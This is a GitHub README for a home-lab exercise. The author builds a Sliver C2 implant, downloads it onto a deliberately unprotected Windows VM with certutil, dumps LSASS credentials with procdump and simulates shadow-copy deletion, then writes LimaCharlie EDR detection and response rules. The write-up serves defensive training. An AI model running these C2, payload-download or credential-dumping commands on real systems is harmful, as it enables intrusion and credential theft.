 # EDR-Attack-and-Defense-Lab

In this foundational SOC Home Lab I spun up a Win10 vm as my victim client and disabled Windows Defender EDR. Set up a C2 framework using Sliver for emulating threat-actor behavior by crafting my very own malicious payload. Threw attacks, caught the detections and watched the malicious traffic. Set up automated D&R rules to mitigate these attacks.

Eric Capuano's Guide: https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?utm_campaign=post&utm_medium=web

### Setup:

First I spun up both virtual machines. The attack machine will run on Ubuntu Server, and the endpoint will be running Windows 11. In order for this lab to work smoothly I turned off all the Windows Security solutions (Virus & threat protection, Microsoft Defender Firewall, etc.) on the Windows 11 VM, making it my vulnerable victim machine. I am also going to be installing Sliver on the Ubuntu machine as my primary attack tool, and setting up LimaCharlie on the Windows machine as an EDR solution. LimaCharlie will have a sensor linked to the Windows machine, and will be importing sysmon logs.

### Skills Learned

- Advanced understanding of EDR concepts and practical application.
- Proficiency in analyzing and interpreting network telemetry.
- Ability to generate, deploy, transfer, and execute a Command & Control payload on the Windows endpoint using Sliver.
- Enhanced knowledge of Windows commands to gather information and assess system privileges.
- Familiarization with normal vs. anomalous activity to enhance threat detection capabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Understanding the process of performing hash scans on sites like VirusTotal to identify known malware. As well as understanding false negative results when dealing with a newly crafted payload.
- Detection rule creation and response implementation on a SecOps Cloud Platform such as LimaCharlie.


### Tools Used

- LimaCharlie EDR for endpoint detection and response capabilities,
monitoring and capturing telemetry, creating and applying detection rules.
- Sysmon integrated with LimaCharlie for detailed network logging and event capture on the Windows endpoint.
- VirusTotal used for scanning and analyzing the hash of executables to identify known malware.
- Sliver C2 Server for crafting and deploying a malicious payload.
- Utilizing Windows and Linux CLI

## Steps

*Ref 1: Windows Security controls off*

![image](https://github.com/user-attachments/assets/415b034b-db82-4da7-bdf9-88b55b2f52c3)

![image](https://github.com/user-attachments/assets/9d6597e1-a266-4ab8-8852-72c1754aeede)

![image](https://github.com/user-attachments/assets/0e89acb1-c5fe-4243-85f5-938961e2f978)

![Disabling WinDefender via Registry Editor](https://github.com/user-attachments/assets/4e244807-80e6-41bd-9445-be3569724400)

#### Now that my Windows machine is vulnerable, it's time to SSH into my Ubuntu AttackBox.

*Ref 2: Using PuTTY to connect via SSH*
![Screenshot 2024-09-02 113412](https://github.com/user-attachments/assets/97f91ab3-c686-439a-b0c2-6c7954162a34)

#### Once in my Ubuntu machine I use the _'sudo su'_ command to temporarily gain root access, navigate to the sliver directory and launch Sliver-server.

*Ref 3: Launching Sliver-server and generating C2 session payload*

![image](https://github.com/user-attachments/assets/bb40665c-01da-4dda-a41b-4d2cfb7b4e79)

Using the command _'generate --http 192.168.247.129 --save /opt/sliver'_, I generate a Command & Control payload executable.

![SLIVER C2 payload GOOD_TWINE](https://github.com/user-attachments/assets/a1d170c5-f92d-4f9b-b112-41a524bf70ec)

![GOOD_TWINE implant](https://github.com/user-attachments/assets/5409a0bf-3760-48b1-a7be-91e6f5fc16c3)

Running the command _'implants'_ above, you’ll see it has created my payload with the random name **GOOD_TWINE**. 
_We will be using this payload to infect the Windows machine in the next step..._

#### I exited Sliver and made sure I was in the sliver directory. 
To download the C2 easily from the Linux VM to the Windows VM I spun up a temporary web server using Python

_'python3 -m http.server 80'_

![image](https://github.com/user-attachments/assets/14db0600-1b15-4087-a406-707710d04588)

#### I switched my attention to the Windows VM and launched an Administrative PowerShell console.
Executing the command _'certutil.exe -f -urlcache http://192.168.247.129/GOOD_TWINE.exe GOOD_TWINE.exe'_ starts the download of my payload.

*Ref 4: Downloading C2 session payload onto victim machine via Python3 web server*

![Malware Staged 2](https://github.com/user-attachments/assets/8fd84d5e-a28e-48cd-a13f-abc199bb91e3)

![We are In!](https://github.com/user-attachments/assets/299b4831-809b-474f-8e88-d56db49344c5)

#### Now that we are hosting a live session between the two machines, I input the commands _'info' 'getprivs'_ and _'ps -T'_ to check my remote user privileges, information on the victim machine, and see the specific security products used.
_In this case my victim machine is using Sysmon64 and Windows Smart Screen_.

*Ref 5: Full remote access*

![Inside the Windows machine](https://github.com/user-attachments/assets/0352ae0d-93e0-47cb-ae54-c729b6974974)

![Checking user privs](https://github.com/user-attachments/assets/4bf919a8-2b4f-4892-88e2-3a1a14a2b577)

![Identifying running processes in remote system](https://github.com/user-attachments/assets/a5abe060-f99e-404f-a6fa-2422107eb357)

#### We can see processes like _SeDebugPrivilege_ and _SeImpersonatePrivilege_ are Enabled, which means we are logged in as Admin.

![Implant admin privs on Windows machine](https://github.com/user-attachments/assets/628cf8ab-4473-40b4-9a46-36a155edf91c)


### Now time to go into Lima Charlie to see the noise!

Using my host machine I click the sensors tab, to see that my Windows machine is online.

![LimaCharlie Win11 vm Sensor](https://github.com/user-attachments/assets/683eea85-3abc-4784-878d-6666f4e0c2f7)

We can look inside our LimaCharlie SIEM and see telemetry from the attack. We can identify the payload thats running and see the IP its connected to.

*Ref 6: LimaCharlie Processes and Network Detection Telemetry*

![Unusual NOT signed process hmm](https://github.com/user-attachments/assets/ee04912e-9120-4411-a4f0-007de47cc5f9)
![Network Logs of our attack](https://github.com/user-attachments/assets/3ecf5dd1-1a41-4f31-8aec-ebd87f6debe6)
![Timeline of Execution](https://github.com/user-attachments/assets/dcc8720a-b590-4373-aa7c-9c017b1fa2ca)


We can also use LimaCharlie to scan the hash of the payload through VirusTotal; however, it will yield no results since we just created the brand new payload ourselves!

![Virus NOT Detected](https://github.com/user-attachments/assets/8bea1003-0e8a-4de4-ac38-7e980d2d1379)

### Now to simulate an attack to steal credentials by dumping the LSASS memory. In LimaCharlie we can check the sensors, observe the telemetry, and write rules to detect this common cyber attack.

Using the _'procdump -n lsass.exe -s lsass.dmp'_ command I saved the remote processes from memory locally on Sliver C2 server. 

![image](https://github.com/user-attachments/assets/ae281d5b-8f7c-413a-bc5a-aa908d86a980)

#### _Let's see what this looks like on LimaCharlie_

*Ref 7: Detection Rule*

![Sensitive_Process_Event](https://github.com/user-attachments/assets/d5b08096-0c1f-40cb-af0b-c76b5e93873e)

![Detection Rule](https://github.com/user-attachments/assets/a3b65c2f-7d13-4e61-9f98-928f9c13ecdc)


#### Instead of just detecting attacks, we can use LimaCharlie to create a rule that both detects and responds, by blocking threats originating from the Sliver server. By simulating ransomware on the Ubuntu machine, such as attempting to delete volume shadow copies, we can monitor the telemetry in LimaCharlie and then implement a rule that completely stops the attack. Once this rule is active in our SIEM, any further attempts by the Ubuntu machine to carry out the same attack will be blocked.

*Ref 8: Response Rule Vss_deletion_kill_it*

![Deleting shadow volume copies (Ransomware attack)](https://github.com/user-attachments/assets/020b0796-18e6-483c-bceb-363944122ad7)

![Detection of Deleting shadow volumes](https://github.com/user-attachments/assets/a7d3f7fe-a332-409f-b6ae-0e3f90f1d121)

![Response Rule Vss_deletion_kill_it](https://github.com/user-attachments/assets/78032692-1303-4ec4-be96-7e5ab2fe805f)

*Ref 9: Forced remote shell exit*

![Forced shell exit](https://github.com/user-attachments/assets/8001d5a3-a31e-400a-8e6f-90584c8ae4f8)



